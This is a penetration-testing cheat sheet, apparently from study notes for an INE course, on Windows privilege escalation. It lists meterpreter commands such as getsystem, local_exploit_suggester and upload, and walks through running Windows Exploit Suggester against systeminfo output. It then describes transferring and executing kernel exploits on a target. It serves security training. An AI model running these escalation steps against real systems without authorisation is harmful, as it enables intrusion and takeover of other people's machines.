 # Windows Kernel Exploits

* [GitHub](#github)
* [Metasploit](#metasploit)
* [Windows Exploit Suggestor](#windows-exploit-suggester)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## GitHub 
https://github.com/SecWiki/windows-kernel-exploits  
https://github.com/AonCyberLabs/Windows-Exploit-Suggester 

***********************************************************************

## Metasploit
To attempt to escalate privileges in meterpreter automatically:
```
getsystem
```
To search for vulnerabilities:
```
search suggester
```
```
use post/multi/recon/local_exploit_suggester
```
```
set session [SESSION-ID]
```
Now research the suggested vulnerabilities and choose a module to exploit the target.  

To transfer files via meterpreter:
```
upload [FILE-PATH]
```

***********************************************************************

## Windows Exploit Suggester
Github:   
https://github.com/AonCyberLabs/Windows-Exploit-Suggester   

On an un-elevated shell on target system:
```
systeminfo
```
* Copy all the systeminfo output and put it in a file on the attack machine  
* cd into the directory containing Windows Exploit Suggester
* Make sure the database is updated first:
```
./windows-exploit-suggester.py --update
```
* Now execute Windows Exploit Suggester
```
./windows-exploit-suggester.py --database [MOST-UP-TO-DATE-DATABASE.xls] --systeminfo [PATH-TO-SYSTEMINFO-FILE]
```
[E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin   
* Exploits on top of suggested list have the highest chance of success     
* Now research the suggested vulnerabilities and choose one to exploit the target...  

* Good source of exploit code:  
https://github.com/SecWiki/windows-kernel-exploits   

Now download the applicable exploit code, transfer it to target machine, and execute the code to escalate privileges...

To transfer files via meterpreter:
```
upload [FILE-PATH]
```

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
